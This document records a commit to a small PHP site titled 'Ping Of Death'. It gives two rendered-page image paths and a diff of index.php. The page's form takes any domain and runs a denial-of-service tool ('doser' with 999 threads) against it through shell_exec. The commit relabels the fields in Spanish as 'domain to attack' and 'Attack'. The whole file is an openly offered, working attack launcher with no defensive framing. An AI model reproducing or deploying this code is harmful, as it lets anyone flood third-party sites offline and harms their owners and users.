

Before and after one commit to Soyalguien2324/ping-of-web, a PHP site: page / in a window 1280 px wide. Shown: the top 383 px of the page, without its empty margins (0-640 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme; some web fonts are replaced.

Commit message:
Update index.php

```diff
--- a/index.php
+++ b/index.php
@@ -1,5 +1,5 @@
 <!DOCTYPE html>
-<html >
+<html>
 <head>
 	<meta charset="utf-8">
 	<title>Ping Of Death</title>
@@ -12,23 +12,18 @@
 <body>
     <h1>
 	Ping Of Death
-</h1>
+    </h1>
     <form method="post">
-        <label for="dominio">Domain:</label>
+        <label for="dominio">Dominio a atacar:</label>
         <input type="text" id="dominio" name="dominio" required>
-        <button type="submit">Execute</button>
+        <button type="submit">Atacar</button>
     </form>
-
     <?php
     if ($_SERVER["REQUEST_METHOD"] == "POST") {
         $dominio = escapeshellarg($_POST["dominio"]);
         $command = "/root/doser.go/doser -t 999 -g $dominio";
-
-        // Execute the command and capture the output
         $output = shell_exec($command);
-
-        // Display the output
-        echo "<h2>Command Output:</h2>";
+        echo "<h2>Ataque:</h2>";
         echo "<pre>$output</pre>";
     }
     ?>
```
